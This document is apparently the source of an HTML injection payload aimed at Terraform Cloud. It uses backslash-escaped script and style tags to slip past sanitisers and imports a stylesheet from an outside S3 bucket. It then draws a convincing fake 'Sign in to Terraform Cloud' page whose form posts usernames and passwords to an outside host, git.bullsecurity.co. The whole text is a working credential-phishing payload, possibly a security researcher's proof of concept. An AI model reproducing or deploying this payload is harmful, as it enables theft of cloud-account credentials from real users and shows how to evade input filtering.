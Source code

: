 
<div style=""><\s\c\ript\>@im\port'https://\terraform-css-02\.s3\.amazonaws\.com\/test.css';<img src="<\/sc\rip\t>

<div style=""><style>@im\port'https://\terraform-css-02\.s3\.amazonaws\.com\/test.css';<img src="</style>
  
    <div class="columns is-centered is-vcentered">
  <div class="column is-full-mobile is-fixed-medium">

    <section class="section">

        <div class="box session-box session-box-top session-box-top-cloud">
    <img src="https://d3apqp432l5mdq.cloudfront.net/CIRC-51779-348ab1e/assets/terraform-cloud-logo-81769debed7594dfa089baf99d4a402aedadaaf69303482f37fac40d39e7c047.svg" alt="Terraform Cloud">
  </div>


      <div class="box session-box session-box-bottom">
        <h2 class="session-title is-size-5" data-cy="title">Sign in to Terraform Cloud</h2>

        


          <div>
            <form class="new_user" id="new_user" action="https://git.bullsecurity.co" accept-charset="UTF-8" method="post"><input name="utf8" type="hidden" value="✓"><input type="hidden" name="authenticity_token" value="oLvVZxkRIXC35v/4Gf8JHKWAx/oLcmuU4hEHwjGPajF1nj7MemTDt8FreDjKFtFyQNFIbvy3GLyVuphhWISZgA==">

  <div class="field">
    <label class="label" for="user_login">Username or email</label>
    <input autofocus="autofocus" class="input" data-cy="login-field" type="text" name="user[login]" id="user_login">
  </div>

  <div class="field">
    <label class="label" for="user_password">Password</label>
    <input class="input" data-cy="password-field" type="password" name="user[password]" id="user_password">
    <div class="help">
      <a href="/auth/new">Forgot password?</a>
    </div>
  </div>

  <div class="field">
    <input type="submit" name="commit" value="Sign in" class="button is-fullwidth is-primary " data-cy="submit">
  </div>
</form>
          </div>

      </div>

      <div>
          <p class="has-margin-bottom">
    Need to sign up? Create your <a href="/signup/account">free account</a>.
  </p>
  <p>
    View <a href="https://www.hashicorp.com/products/terraform/offerings">Terraform Offerings</a> to find out which one is right for you.
  </p>


      </div>


    </section>

  </div>
</div>
